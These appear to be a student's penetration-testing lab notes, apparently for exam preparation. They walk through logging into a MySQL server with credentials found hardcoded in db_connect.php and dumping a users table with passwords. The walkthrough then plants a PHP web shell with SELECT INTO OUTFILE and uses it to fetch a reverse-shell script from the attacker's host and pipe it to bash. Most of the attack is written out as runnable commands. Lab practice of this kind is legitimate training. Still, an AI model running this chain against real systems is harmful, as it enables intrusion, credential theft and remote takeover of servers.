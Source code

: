Now will try to login and see what data we can get from it 
```
mysql -u <username> -p -h 192.168.100.1
```

```
mysql -u admin -p -h 192.168.100.1
```

```
DBManagerLogin!
```

so this is not working which means we have to do osint in the file to get the pasword that might work

db_connect.php looks fishy
![[Pasted image 20240817172018.png]]


BINGOOOOOOOOOOOOOOO
```
define('DB_SRV', '192.168.100.1');
define('DB_PASSWD', "!123SecureAdminDashboard321!");
define('DB_USER', 'admin');
define('DB_NAME', 'DashboardDB');
```


```
mysql -u admin -p -h 192.168.100.1
```

```
!123SecureAdminDashboard321!
```


>[! important] Important

This happened here and might happened in the exam as well. I was not able to get the mysql shell in the dumb shell and after i changed it into interactive shell i was able to get it.

Taking help of Chat GPT

![[Pasted image 20240817224657.png]]

```
select username,password from users limit 10;
```

```
| username | password        |
+----------+-----------------+
| admin    | DBManagerLogin! |
| gurag    | AAAA      
```


```
select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';
```
![[Pasted image 20240817230257.png]]


We will try to get the shell from the Docker now
Attacker -> Linux Server 
Linux -> Docker ()
```
curl 192.168.100.1:8080/shell.php?cmd=curl%20http%3A%2F%2F10.51.9.13%3A80%2Fphp_rev.sh%7Cbash%20%26
```
